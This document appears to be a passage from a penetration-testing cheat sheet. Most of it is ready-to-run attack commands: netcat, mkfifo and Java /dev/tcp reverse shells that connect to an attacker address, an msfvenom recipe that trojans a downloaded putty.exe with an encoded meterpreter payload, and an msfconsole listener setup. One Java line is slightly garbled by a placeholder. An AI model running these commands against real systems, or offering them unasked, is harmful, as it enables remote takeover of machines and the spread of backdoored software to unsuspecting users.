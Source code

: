 ```
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Java

```
r = Runtime.getRuntime()

p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \*dollar-sign*line 2>&5 >&5; done"] as String[])

p.waitFor()
```

### backdoor a file:

wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe

```
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai 
-i 3 -b "\x00" -f exe -o puttyX.exe

```
## msfconsole

```
msfconsole -qx "use exploit/multi/handler; set LHOST 0.0.0.0; set LPORT 4444; set PAYLOAD windows/meterpreter/reverse_tcp; set ExitOnSession false; exploit -y -j"

```


## msfvenom

Listing payloads

```
msfvenom -l
```

help with formats

```
msfvenom --help-formats
```

list encoders

```
msfvenom --list encoders
```
